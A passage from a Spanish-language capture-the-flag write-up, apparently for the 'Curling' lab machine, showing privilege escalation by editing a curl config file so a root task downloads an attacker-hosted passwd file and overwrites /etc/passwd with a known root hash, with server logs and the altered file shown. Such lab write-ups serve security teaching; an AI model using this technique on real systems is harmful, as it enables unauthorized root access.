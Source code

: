```bash
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Modificamos el archivo `input` para que nos lance la peticion a nuestro servidor y sobrescriba el fichero`/etc/passwd` del user `root`:
```bash
url = "http://10.10.16.132/passwd"
output = "/etc/passwd"
``` 

Vale teniendo nuestro ficherito ya listo para compartirlo, nos montamos el servidor con python3
```bash
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [21/May/2021 17:04:02] "GET /passwd HTTP/1.1" 200 -
``` 
Ahi nos lo hace y comprobamos el fichero /etc/passwd, a ver si se a sobrescrito correctamente con la pass indicada para el user  `root`
```bash
floris@curling:~/admin-area$ cat /etc/passwd
root:kuaLSx9HZad7.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
floris@curling:~/admin-area$ 
```